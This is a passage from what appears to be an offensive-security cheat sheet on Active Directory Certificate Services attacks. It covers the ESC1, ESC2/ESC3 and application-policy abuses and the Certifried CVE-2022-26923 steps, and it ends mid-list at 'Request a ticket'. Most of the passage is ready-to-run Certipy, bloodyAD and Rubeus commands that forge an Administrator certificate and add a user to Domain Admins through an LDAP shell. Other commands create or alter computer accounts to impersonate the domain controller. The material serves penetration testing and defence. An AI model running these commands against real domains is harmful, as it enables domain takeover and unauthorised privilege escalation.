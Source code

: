 > "Application policy is Microsoft specific and is treated much like Extended Key Usage. If a certificate has an extension containing an application policy and also has an EKU extension, the EKU extension is ignored." - Microsoft


When a user requests a certificate based on a schema version 1 template and includes an application policy, the policy is incorporated into the certificate. This allows users to specify arbitrary EKUs, bypassing the requirements for ESC2.

**ESC1** - The WebServer template is enabled by default in ADCS, requires a user-supplied SAN and only has the `Server Authentication` EKU. Using [ly4k/Certipy PR #228](https://github.com/ly4k/Certipy/pull/228), we can add the `Client Authentication` EKU to `WebServer`. Anybody with the `Enroll` permission on this template can now compromise the domain.

```ps1
certipy req -dc-ip 10.10.10.10 -ca CA -target-ip 10.10.10.11 -u user@domain.com -p 'P@ssw0rd' -template WebServer -upn Administrator@domain.com --application-policies 'Client Authentication'
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 -ldap-shell

# in LDAP shell
add_user pentest_user
add_user_to_group pentest_user "Domain Admins"
```


**ESC2/ESC3** - **Certificate Request Agent** (`1.3.6.1.4.1.311.20.2.1`),

```ps1
certipy -req -u user@domain.com -p 'P@ssw0rd' --application-policies "1.3.6.1.4.1.311.20.2.1" -ca "Lab Root CA" -template WebServer -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy -req -u user@domain.com -p 'P@ssw0rd' -on-behalf-of DOMAIN\\Administrator -Template User -ca "Lab Root CA" -pfx user.pfx -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```


## Certifried CVE-2022-26923

> An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

* Find `ms-DS-MachineAccountQuota`
  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'DC=lab,DC=local' --attr ms-DS-MachineAccountQuota 
  ```
* Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`
  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 add computer cve 'CVEPassword1234*'
  certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
  ```
* [ALTERNATIVE] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN
  ```ps1
  Rubeus.exe tgtdeleg
  export KRB5CCNAME=/tmp/ws02.ccache
  bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local set object 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName
  ```
* Set the `dNSHostName` attribute to match the Domain Controller hostname
  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 set object 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName -v DC.lab.local
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'CN=cve,CN=Computers,DC=lab,DC=local' --attr dNSHostName
  ```
* Request a ticket